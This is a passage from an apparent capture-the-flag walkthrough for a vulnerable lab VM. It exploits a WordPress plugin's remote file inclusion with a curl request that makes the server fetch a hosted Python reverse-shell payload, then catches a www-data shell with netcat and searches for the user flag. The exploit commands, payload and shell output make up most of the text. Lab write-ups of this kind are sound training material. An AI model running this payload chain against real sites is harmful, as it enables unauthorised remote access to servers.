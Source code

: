 Here is a link (https://wpvulndb.com/vulnerabilities/9259) that details the vulnerability.

## Reverse shell

Let's exploit the vulnerability.

Start a listener:

~~~
kali@kali:/data/wpwnvm/files$ rlwrap nc -nlvp 4444
listening on [any] 4444 ...
~~~

Prepare a python reverse shell and host it with a python web server:

~~~
kali@kali:/data/wpwnvm/files$ cat payload.txt 
<pre>system('python3 -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.9",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);\'')</pre>
kali@kali:/data/wpwnvm/files$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
192.168.1.12 - - [22/Sep/2020 18:34:58] "GET /payload.txt?swp_debug=get_user_options HTTP/1.0" 200 -
~~~

Now call the following URL:

~~~
kali@kali:/data/wpwnvm/files$ curl "http://192.168.1.12/wordpress/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://192.168.1.9:8000/payload.txt"
~~~

We now have a reverse shell:

~~~
kali@kali:/data/wpwnvm/files$ rlwrap nc -nlvp 4444
listening on [any] 4444 ...
connect to [192.168.1.9] from (UNKNOWN) [192.168.1.12] 44542
bash: cannot set terminal process group (487): Inappropriate ioctl for device
bash: no job control in this shell
www-data@wpwn:/var/www/html/wordpress/wp-admin$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
~~~

## User flag

The user flag is in `/home/takis/user.txt`:

~~~
www-data@wpwn:/var/www/html/wordpress$ ls -la /home
ls -la /home
total 12
drwxr-xr-x  3 root  root  4096 Aug 17 18:50 .
drwxr-xr-x 18 root  root  4096 Aug 17 18:46 ..
drwxr-xr-x  3 takis takis 4096 Aug 17 19:44 takis
www-data@wpwn:/var/www/html/wordpress$ cd /home/takis
cd /home/takis
www-data@wpwn:/home/takis$ ls -la
ls -la
total 32
drwxr-xr-x 3 takis takis 4096 Aug 17 19:44 .
drwxr-xr-x 3 root  root  4096 Aug 17 18:50 ..
-rw------- 1 takis takis   59 Aug 17 20:31 .bash_history
-rw-r--r-- 1 takis takis  220 Aug 17 18:50 .bash_logout
-rw-r--r-- 1 takis takis 3526 Aug 17 18:50 .bashrc
drwxr-xr-x 3 takis takis 4096 Aug 17 19:44 .local
-rw-r--r-- 1 takis takis  807 Aug 17 18:50 .profile
~~~